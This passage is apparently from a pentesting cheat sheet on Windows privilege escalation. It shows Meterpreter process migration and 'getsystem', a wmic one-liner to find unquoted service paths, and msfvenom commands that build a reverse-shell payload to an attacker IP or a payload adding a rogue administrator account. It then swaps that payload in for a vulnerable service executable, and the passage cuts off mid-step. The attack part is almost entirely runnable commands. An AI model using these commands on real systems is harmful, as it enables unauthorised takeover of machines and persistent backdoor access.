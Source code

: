 ```
Or in meterpreter shell
```
migrate <PID>
```

**Easy Way To get a system shell**

In meterpreter shell there is command by which you can get system shell simple

```
getsystem
```
It try's all available techniques to get system shell on target system.

To specify a particular technique

```
getsystem -t 1
```
Here '-t' is for techniques


**Exploit Unquoted Path Service**

This technique is used to exploit PE(Portable Executable) that has a space in the filename and the file name is not enclosed in quote tags (“”) and we have write permissions, we can also replace that executable.



First we have to enter windows shell to execute cmd commands
```
shell
```
After enumerating an Unquoted Path Service using **Post Enumeration Command**
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
And we have found a service name 'Exploitme.exe'


**We will create a msfvenom payload to replace that vulnerable PE**

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<AttackerIP> lport=<port> prependmigrate=true prependmigrateprocess=explorer.exe -f exe > /root/home/Desktop/Exploitme.exe
```
Or we can also create a payload to directly change a user to administrator
```
msfvenom -p windows/exec CMD='net localgroup administrators boss /add' -f exe > /root/home/Desktop/Exploitme.exe
```

In target shell

```
move Exploitme.exe Exploitme.exe.1
upload /root/Desktop/Exploitme.exe 
